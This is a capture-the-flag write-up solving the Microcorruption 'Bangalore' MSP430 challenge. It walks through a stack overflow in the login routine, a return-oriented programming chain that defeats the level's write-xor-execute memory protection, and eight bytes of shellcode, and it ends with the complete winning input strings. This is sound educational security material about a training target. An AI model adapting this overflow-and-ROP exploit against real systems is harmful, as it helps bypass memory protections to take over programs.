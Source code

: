 # For bangalore in microcorruption

In this challenge, we are introduced a new form of protection against hacking.

>   Lockitall engineers  have worked for  over a year to  bring memory
    protection to  the MSP430---a  truly amazing achievement.  Each of
    the 256  pages can  either be executable  or writeable,  but never
    both, finally  bringing to  a close  some of  the issues  in prior
    versions.

This is known as NX and DEP. In this challenge, the function `44de <set_up_protection>` sets up the protection. It calls 3 different functions which doe as their respective names imply.

1. `449c <mark_page_writable>`
2. `44b4 <mark_page_executable>`
3. `44cc <turn_on_dep>`

### Analysis of the program

```
4512 <login>
4512:  3150 f0ff      add	#0xfff0, sp
4516:  3f40 0024      mov	#0x2400, r15
451a:  b012 7a44      call	#0x447a <puts>	# Enter the password to continue.
451e:  3f40 2024      mov	#0x2420, r15
4522:  b012 7a44      call	#0x447a <puts>	# Remember: passwords are between 8 and 16 characters.
4526:  3e40 3000      mov	#0x30, r14
452a:  0f41           mov	sp, r15
452c:  b012 6244      call	#0x4462 <getsn>	# getsn(sp, 48 characters)
4530:  3f40 6524      mov	#0x2465, r15
4534:  b012 7a44      call	#0x447a <puts>	# That password is not correct.
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret
```
No matter what our password is, it will always be "incorrect".

The 17th character in our input will override the return address of `<login>`. We can control program flow after `<login>` returns.
```
3fe0:   7444 0000 0000 0a00 9644 0000 3845 6161   tD.......D..8Eaa
3ff0:   6161 6162 6262 6262 6363 6363 6364 6464   aaabbbbbcccccddd
4000:   6464 6565 6565 6566 6666 6666 6767 6767   ddeeeeefffffgggg
4010:   6768 6868 6868 6969 6969 696a 6a6a 0000   ghhhhhiiiiijjj..
4020:   *
```
```
pc  6464 
```

Now we only need to find the correct function(s) to call. There is just one problem; there is *no* function to call to unlock the door. There is no ASLR enabled here, so we can smash the stack to point back to our input. Even though the stack is writable and not executable, why don't we just make it executable again with `44b4 <mark_page_executable>` to execute our shellcode? 

> Return-oriented programming (ROP) is a computer security exploit technique that allows an attacker to execute code in the presence of security defenses such as executable space protection.

To do so, we need to do some [ROPing](https://en.wikipedia.org/wiki/Return-oriented_programming). We have 2 different ROP gadgets. After that, our shellcode in the stack will become executable.

- Gadget A:
```
4508:  3b41           pop	r11
450a:  3041           ret
```
This will pop the memory page we want to be made executable into `r11`. 

- Gadget B:
```
44f6:  0f4b           mov	r11, r15
44f8:  b012 b444      call	#0x44b4 <mark_page_executable>
44fc:  1b53           inc	r11
44fe:  3b90 0001      cmp	#0x100, r11
4502:  f923           jne	#0x44f6 <set_up_protection+0x18>
[...]
450a:  3041           ret
```
Gadget B takes the value of `r11` (set by Gadget A) and makes all the pages between it and page 0x100 executable.

Hold up. What do you mean by "page"?

>Some version of the LockIT Pro contain memory protection which allows each
of the 256 pages to be either executable or writable, but never both.
[source](https://microcorruption.com/manual.pdf)

A [page](https://en.wikipedia.org/wiki/Page_(computer_memory)) is a continuous block of virtual memory of fixed length. In this challenge, there are a total of `0x10000` bytes (from `0x0000` to `0xffff`). Since the manual states that there are `0x100` pages, each page is `0x100` bytes large.

```
44e6:  1b43           mov	#0x1, r11
44e8:  0f4b           mov	r11, r15
44ea:  b012 9c44      call	#0x449c <mark_page_writable>
44ee:  1b53           inc	r11
44f0:  3b90 4400      cmp	#0x44, r11
44f4:  f923           jne	#0x44e8 <set_up_protection+0xa>
```
The snippet of code above shows that pages 1 to 44 (ie addresses `0x100` to `0x4400` are made writable). The stack is initialised to be in address `0x4000`, which makes sense because it must be writable. Otherwise, the program would not be able to key in values into the stack to pass as arguments to a function. Hang on a minute. Do you realise how I contradicted myself? We know that no area of memory can be *both* writable and executable. The stack, which lies around memory `0x4000` *must* be writable, so if we make it executable to execute our shellcode, the program is no longer able to function because it can't write anything into memory. It would give us the error: `Segmentation Fault: can not write to execute-only page.`.

We have to write our shellcode somewhere else (say address `0x4200` where it is writable, and not in the same page as the stack). It cannot be in the same page as the stack because when we make its page executable, it will leave the stack writable. To write into address `0x4200`, we shall call `getsn(0x4200, 8)` to read 8 characters into address `0x4200`. We read 8 characters because it is the length of our shellcode.

- Gadget C
```
4462 <getsn>
[...]
4468:  3180 0600      sub	#0x6, sp
446c:  3240 0082      mov	#0x8200, sr
4470:  b012 1000      call	#0x10
4474:  3150 0a00      add	#0xa, sp
4478:  3041           ret
```

After that, we make page 42 (ie address `0x4200` to `0x42ff`) executable with Gadget A and B. Then, the ROP chain returns to our shellcode in address `0x4200`.

> The interrupt kind is passed in R2, the status register, on the high byte. Arguments are passed
on the stack.
[source](https://microcorruption.com/manual.pdf)

This is our shellcode, which is equivalent to calling `INT 0x7F`.
```
mov #0xFF00, sr;	# INT 0x7F
call #0x10;

In hex: 324000ffb0121000
```

### Winning input

Putting all these together, we can craft the exploit below.

1st input: `6161616161616161616161616161616168440042080008454200f644ffff0042`

2nd input: `324000ffb0121000`

Let me dissect the input for you.

- `61616161616161616161616161616161` is the padding. 
- `684400420800` returns to Gadget C with the arguments `0x4200` and `0x8`. This is where we key in Input 2. 
- `08454200` pops `0042` into `r11`. 
- `f644` returns into Gadget B to make address `0x4200` to `0xffff` executable so we can execute our shellcode. 
- `0042` returns to the shellcode in address `0x4200`. It unlocks the door.

END
